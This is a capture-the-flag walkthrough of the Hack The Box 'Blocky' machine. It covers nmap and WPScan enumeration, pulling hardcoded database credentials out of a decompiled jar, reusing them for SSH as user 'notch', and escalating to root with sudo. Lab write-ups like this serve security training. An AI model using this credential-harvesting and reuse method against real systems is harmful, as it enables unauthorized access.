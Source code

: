 # Walkthrough: Blocky HTB Machine
![Blocky.png]
**Target IP Address**: `10.10.10.37`  
**Difficulty**: Easy  
**Tools Used**: Nmap, WPScan, JD-GUI, SSH

## Step 1: Initial Enumeration

To start, I performed an Nmap scan to identify open ports and services.

```bash
nmap -sC -sV 10.10.10.37
```

### Nmap Results:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 14:39 IST
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 5.05% done; ETC: 14:40 (0:00:38 remaining)
Nmap scan report for 10.10.10.37
Host is up (0.071s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.36 seconds
```

The HTTP service redirected to `http://blocky.htb`, suggesting a hostname requirement.

### Update Hosts File

```bash
sudo nano /etc/hosts
```

Add the following entry:
```
10.10.10.37 blocky.htb
```

## Step 2: Web Enumeration

With the website active, I used WPScan to further enumerate the WordPress site and discovered the user .

```
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

## Step 3: Decompiling BlockyCore.jar

A downloadable `.jar` file was available on the website. I used `JD-GUI` to analyze the `BlockyCore.jar` file for sensitive information.

The code snippet revealed the following:

```
public String sqlUser = "root";
public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

These credentials hinted at possible SSH access.

## Step 4: Gaining Access via SSH

Using the discovered credentials, I logged into SSH with the username `notch`:

```bash
ssh notch@10.10.10.37
```

**Password**: `8YsqfCTnvxAUeduzjNSXe22`

This granted me user-level access.

## Step 5: Privilege Escalation

With user access, I executed `sudo -i` to escalate privileges:

```bash
sudo -i
```
After being promoted to root, we can get a root flag.
